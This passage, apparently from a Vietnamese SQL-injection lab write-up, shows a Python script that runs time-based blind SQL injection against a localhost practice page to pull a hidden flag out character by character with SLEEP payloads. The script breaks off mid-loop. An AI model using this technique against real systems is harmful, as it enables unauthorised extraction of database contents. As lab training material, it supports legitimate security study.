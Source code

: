 ![images/image.png](images/image%2014.png)

⇒ Thu được về tên database là `test` và tổng có 9 table.

Bảng `flag` là bảng đã được setup từ trước để giấu flag.

Script python để đọc cột và lấy flag:

```python
import requests
import string
import time
import sys

url = "http://localhost/sql-injection-lab/1/friendadd.php"
cookies = {"PHPSESSID": "47jhemumu2hib038cmlrnp3gml"}
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded",
    "Referer": "http://localhost/sql-injection-lab/1/friendadd.php"
}
char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_" + "{}!@#$%^&*()_+-=[]|;:,.<>?/'\""
TIME_THRESHOLD = 20
def brute_force_sql(query_template, description):
    extracted_value = ""
    index = 1
    while True:
        found = False
        for char in char_set:
            payload = f"1' AND IF(SUBSTRING(({query_template}),{index},1)='{char}', SLEEP(20), 0) -- "
            data = {"friend_id": "21", "friend_id2": payload, "add_submit": "Addfriend"}
            start_time = time.time()
            response = requests.post(url, data=data, headers=headers, cookies=cookies)
            elapsed_time = time.time() - start_time
            if elapsed_time > TIME_THRESHOLD:
                extracted_value += char
                sys.stdout.write(f"\r[+] Extracting {description}: {extracted_value}")
                sys.stdout.flush()
                found = True
```